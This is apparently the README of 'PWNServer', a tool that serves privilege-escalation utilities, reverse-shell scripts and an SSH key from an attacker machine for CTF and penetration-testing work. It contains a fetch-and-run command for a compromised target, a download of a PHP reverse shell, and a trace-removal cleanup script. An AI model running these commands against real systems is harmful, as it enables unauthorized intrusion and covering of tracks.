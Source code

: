 # PWNServer
This is an idea I got from [IPPSEC](https://ippsec.rocks) which was to spin up a webserver with some useful tools at the beginning of CTF or job even because you know you'll probably need one. This one kind of got of hand, or maybe its just super useful, either way it does provide tools that I find handy in most jobs.

Currently **PWNServer** is focused on Linux targets. I will add Windows stuff at a later date.

## What it does
With **PWNServer** running you will have a variety of tools available to you via HTTP on your attacking box. This is helpful for several reasons. 

1. If the network you're on blocks github so you can't load tools directly onto a target machine; and
2. The tools will be prestaged and therefore loading them onto the target should be super peppy; and
3. Just about anything you want can be made ready at hand instead of having to go look for it or navigate a browser.

### Tools
In practice it means that once you have a foothold on a target computer you can run this command to get a big head start on finding root (10.10.10.17 = attack box IP):
```
$ wget http://10.10.10.37:80/client.sh -O client.sh;bash client.sh
--2022-04-20 14:19:20--  http://10.10.10.37/client.sh
Connecting to 10.10.10.37:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 851 [text/x-sh]
Saving to: ‘client.sh’
```
That command will proceed to run **client.sh** and download a bunch of tools into the "bin" directory. What tools? Tools like this:

* linpeas.sh
* pspy32
* pspy64
* LinEnum.sh
* linuxprivchecker.py

along with several others and any others you want to add.

A special script, **bugout.sh** is provided to follow the Boy Scout code and "Leave no trace". It will remove all of the files and directories in the current directory and below. It will only run from its own directory, so you don't have to worry about nuking an entire server.

### SSH
You will also have a newly generated SSH key available if you need it:
```
wget http://10.10.10.37:80/sshkey.pub
```
The private key will already be added to your available keys.

### Reverse Shells
The directory *shells.src* contains templates used to generate reverse shell scripts based on your attacker IP and port you are listening on (*LPORT* from config.py). The generated scripts are available by default in "/tmp/PWNServer/html/shells". 

Additionally, since it is so often needed for CTFs, Pentest Monkey's famous reverse shell script is available via this easy command:
```
wget http://10.10.14.17:80/shells/ptm-shell.php -O ptm-shell.php
```

## Requirements

This should work on just about any Linux system. It was developed on Python 3.9.12. It should run on earlier versions, but I haven't tested it on any.

## Installation

Get the code from github:
```
git clone https://github.com/kdirectorate/pwnserver.git
cd pwnserver
```
I highly recommend you create a virtual environment for this app. It is very easy to do:
```
python3 -m venv .venv
. .venv/bin/activate
pip install -r requirements.txt
cp config.py.example config.py
```
*config.py* contains your configuration settings and won't be overwritten if you update your copy of **PWNServer**. You should look it over to make sure it is acceptable to you. Especially the 1st few options:

* USERNAME
* APPNAME
* WEBSERVERPORT
* LPORT
* SERVERPATH

However, everything should work out of the box.

## Usage

To start the server run the setup.py program:

```
. .venv/bin/activate
./setup.py [YOURPUBLICIP]
```
By default this will do the following things:

1. Delete (if necessary) and create the "/tmp/PWNServer" directory (TEMPDIR); and
2. Copy all the files in the "html" directory to "(TEMPDIR)/html"; and
3. Copy a variety of Linux privesc tools from their repositories to "(TEMPDIR)/html/bin" and create a tarball of them; and
4. Generate a bunch of reverse shell scripts using [YOURPUBLICIP] and *LPORT* from **config.py** and put them in "(TEMPDIR)/html/shells" (see shells.src); and
5. Generate a one-off SSH key into "(TEMPDIR)/html/sshkey[& .pub]" and add it to your active keys via *ssh-add*; and
6. Display a list of common commands you may need so you can just copy/paste instead of typing them; and
7. Startup a web server serving files in the "(TEMPDIR)/html" directory.

You can take the webserver down by sending it the URI "/QUIT" remotely, or of course just **CTRL-C**. When you get back to pwning things you can skip most of the steps and just run the webserver via:
```
./setup.py -w [YOURPUBLICIP]
```
Don't worry, if  your IP has changed this will regenerate the reverse shell scripts. Mostly it just won't redownload all the tools from step 3. The full list of options is:
```
usage: Eb13l-Webserver [-h] [-w] [-p P] [-l L] ip

Setup Attacker webserver with the usual naughty tools.

positional arguments:
  ip          IP of our attacking box.

optional arguments:
  -h, --help  show this help message and exit
  -w          Start webserver only.
  -p P        Webserver port.
  -l L        Shell catcher port.

Be ethically naughty.
```

## Maintenance
I recommend you fork this project so that you can then store your custom **config.py** file in github. You may want to periodically check config.py.example to make sure any changes made to the list of packages to download get replicated to your config.py. 

## How it should look
![screenshot](screenshot.png)
[![asciicast](https://asciinema.org/a/oiIDOrSWxFDcZuuiXNKDbaldk.svg)](https://asciinema.org/a/oiIDOrSWxFDcZuuiXNKDbaldk)